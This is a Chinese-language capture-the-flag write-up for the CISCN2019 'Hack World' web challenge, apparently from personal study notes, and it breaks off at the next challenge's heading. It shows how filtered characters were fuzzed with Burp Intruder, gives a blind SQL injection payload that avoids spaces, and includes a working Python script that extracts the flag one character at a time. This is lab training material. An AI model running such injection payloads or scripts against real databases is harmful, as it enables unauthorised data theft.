







# 1.fuzz测试过滤字符
- [CISCN2019 华北赛区 Day2 Web1]Hack World
题目提示：flag{} 里为 uuid。

使用 /attack/sql-injection/detect/xplatform.txt构造payload
抓包发送到Intruder，自动添加添加payload位置
设置payload，从文件中加载/attack/sql-injection/detect/xplatform.txt，开始攻击
选择请求查看response，发现长度530的返回SQL Injection Checked，长度520的返回bool(false)，说明长度530的都被过滤

测试注入点，发现是盲注

直接查flag表flag字段的内容:
使用中括号()代替空格
id=(select(ascii(mid(flag,1,1))=102)from(flag))

编写脚本爆破：
```python
# -*- coding:utf-8 -*-
# Author: mochu7
import requests
import string


def blind_injection(url):
    flag = ""
    strings = string.printable
    # num设置大一点，flag是uuid
    for num in range(1, 100):
        for i in strings:
            payload = "(select(ascii(mid(flag,{0},1))={1})from(flag))".format(
                num, ord(i)
            )
            post_data = {"id": payload}
            res = requests.post(url=url, data=post_data)
            if "Hello" in res.text:
                flag += i
                print(flag)
            else:
                continue
    print(flag)


if __name__ == "__main__":
    url = "http://5386a1e3-de18-477c-8aa0-b0eb80124870.node5.buuoj.cn:81/index.php"
    blind_injection(url)
```
需要几分钟才能跑完

# 2.[SWPU2019]Web1